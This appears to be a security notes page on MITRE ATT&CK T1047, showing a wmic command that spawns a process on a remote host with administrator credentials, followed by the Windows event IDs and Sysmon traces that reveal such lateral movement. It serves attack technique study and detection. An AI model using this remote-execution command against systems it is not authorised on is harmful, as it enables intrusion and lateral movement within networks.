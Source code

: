 ```yaml
---
description: 'Windows Management Instrumentation for code execution, lateral movement.'
---
```


# T1047: WMI for Lateral Movement

## Execution

Spawning a new process on the target system 10.0.0.6 from another compromised system 10.0.0.2:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
wmic /node:10.0.0.6 /user:administrator process call create "cmd.exe /c calc"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

![](../.gitbook/assets/wmic-calc.png)

Inspecting sysmon and windows audit logs, we can see 4648 logon events being logged on the source machine as well as processes being spawned by WmiPrvSe.exe on the target host:

![](../.gitbook/assets/wmic-create-cmdline.png)

![](../.gitbook/assets/wmic-logon.png)

![](../.gitbook/assets/wmic-spawn.png)

Both on the host initiating the connection and on the receivind end, events `4624` and `4648` should be logged:

![](../.gitbook/assets/wmi-logons.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1047\",\"type\":\"link\",\"title\":\"Windows Management Instrumentation - ATT&CK for Enterprise\"}" %}

